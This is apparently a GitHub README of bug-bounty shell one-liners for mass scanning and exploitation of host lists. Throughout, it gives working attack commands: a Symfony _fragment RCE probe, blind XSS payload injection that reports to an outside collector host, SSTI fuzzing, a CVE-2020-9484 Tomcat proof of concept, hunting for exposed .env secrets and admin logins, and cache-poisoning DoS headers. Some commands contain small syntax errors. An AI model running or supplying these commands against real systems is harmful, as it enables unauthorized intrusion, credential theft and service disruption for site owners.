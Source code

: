 **This oneliner was created by me for personal use**

### Oneliner to fuzz all hosts with wordlist using httpx and send every request to burpsuite for more investigations:- 

```bash
httpx -l hosts -paths dir.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -http-proxy http://127.0.0.1:8080
```

### Found bug with custom wordlist from robots.txt 

```bash
httpx -l urls.txt -paths /robots.txt -silent -o robots-url.txt
```

```bash
for url in $(cat robots-url.txt);do http -b $url | grep 'Disallow' | awk -F ' ' '{print $2}' | cut -c 2- | anew robot-words.txt;done
```

### RCE ONELINER WITH HTTPX

```bash
httpx -l hosts.txt -path /_fragment?_path=_controller=phpcredits&flag=-1 -threads 100 -random-agent -x GET  -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "PHP Credits"
```

```bash
cat pay-subdomains | sed 's/$/\/_fragment?_path=_controller=phpcredits&flag=-1/' | httpx -status-code
```

### Blind XSS Oneliner with dalfox 


```bash
assetfinder [host] | hakrawler -plain -usewayback -wayback | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -b your.xss.ht -o out.txt
```

### Find Kubernetes with shodan and httpx

```bash
shodan search org:"google" product:"Kubernetes" | awk '{print $3}' | httpx -path /pods -content-length -status-code -title
```

### Finding SSTI with ffuf 

```bash
cat subdomains | gau -subs |grep = |qsreplace "sstitest{{7*7}}" |ffuf -w - -u FUZZ -mr "sstitest49" -t 100 -o ./$chaos.ssti.txt ; done
```

### A POC for CVE-2020-9484

```bash
cat targets.txt | while read host do;do curl --insecure --silent -X GET $host/index.jsp -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy' | grep -qs "PersistentManagerBase" && \printf "$host \033[0;31mCVE-2020-948444\n"
```

### FUZZING ADMIN LOGIN WITH HTTPX 
- [ADMIN LOGIN WORDLIST](https://raw.githubusercontent.com/emadshanab/admin-login/main/admin-login.txt)

```bash
httpx -l allhosts -paths /root/admin-login.txt -threads 100 -random-agent -timeout 10 -tech-detect -status-code -follow-redirects -title -content-length
```

### fuzzing for .env using httpx

```bash
httpx -l hosts -path /api/.env -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -match-regex "APP_SECRET"
```

### Cache dos poisoning 

```bash
cat ~/domain.txt | httprobe | while read url;do ww=$(for i in "X-Oversized-Header-1: Big_Valuetestetstsetsetstsetestsetsetsetsetsetestsetsetsetsetsetsetsetsetsetesset" "X-Meta-Malicious-Header: \r\n" "X-HTTP-Method-Override: POST" "X-Forwarded-Port: 123" "X-Forwarded-Host: $url:123";do curl -s -L -I -H $i $url;done|grep HTTP|grep -v '301 '|awk '{ printf "%3d: %s\n", NR, $0 }');echo -e "\e[1;32m$url\e[0m""\n""$ww""\n";done
```

### WordPress Oneliner for a misconfigured WP login to setup page

```bash
httpx -l hosts.txt -threads 100 -paths /wp-admin/setup-config.php?step=1 -title -tech-detect -status-code
```











